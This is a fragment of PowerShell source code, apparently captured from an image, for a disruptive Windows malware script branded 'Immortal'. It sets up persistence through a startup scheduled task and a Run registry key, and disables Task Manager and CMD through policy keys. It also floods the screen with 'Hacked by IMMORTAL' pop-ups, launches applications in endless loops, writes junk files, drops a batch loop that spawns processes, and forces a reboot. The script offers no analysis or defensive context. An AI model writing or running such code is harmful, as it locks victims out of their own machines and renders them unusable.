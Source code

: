 ```ps1
$trigger = New-ScheduledTaskTrigger -AtStartup
Register-ScheduledTask -TaskName $taskName -Action $action -Trigger $trigger -RunLevel Highest -Force

# Registry Key Persistence
Set-ItemProperty -Path "HKCU:\Software\Microsoft\Windows\CurrentVersion\Run" -Name "Immortal" -Value "powershell.exe -ExecutionPolicy Bypass -File $scriptPath"

# Disable Task Manager, CMD, and PowerShell
Set-ItemProperty -Path "HKCU:\Software\Microsoft\Windows\CurrentVersion\Policies\System" -Name "DisableTaskMgr" -Value 1 -Force
Set-ItemProperty -Path "HKCU:\Software\Microsoft\Windows\CurrentVersion\Policies\System" -Name "DisableCMD" -Value 1 -Force
Set-ItemProperty -Path "HKCU:\Software\Policies\Microsoft\Windows\System" -Name "DisableCMD" -Value 1 -Force

# Spam Pop-Ups - Endless
for ($i = 0; $i -lt 20; $i++) {
    Start-Process powershell -ArgumentList "-Command `"Add-Type -AssemblyName System.Windows.Forms; [System.Windows.Forms.MessageBox]::Show('Hacked by IMMORTAL')`""
    Start-Sleep -Seconds 1
}

# Open Random Applications Forever
while ($true) {
    Start-Process "notepad.exe"
    Start-Process "calc.exe"
    Start-Process "mspaint.exe"
    Start-Sleep -Seconds 5
}

# Generate Junk Files
for ($i = 1; $i -le 100; $i++) {
    $file = "C:\Immortal\spamfile$i.txt"
    Set-Content -Path $file -Value ("IMMORTAL RULES " * 1000)
}

# Batch File for Infinite Loops
@"
@echo off
:loop
start notepad.exe
start mspaint.exe
start cmd.exe
goto loop
"@ | Out-File -Encoding ASCII -FilePath $batchPath

Start-Process "cmd.exe" -ArgumentList "/c $batchPath"

# Reboot the System After 10 Minutes
Start-Sleep -Seconds 600
Restart-Computer -Force
```

---
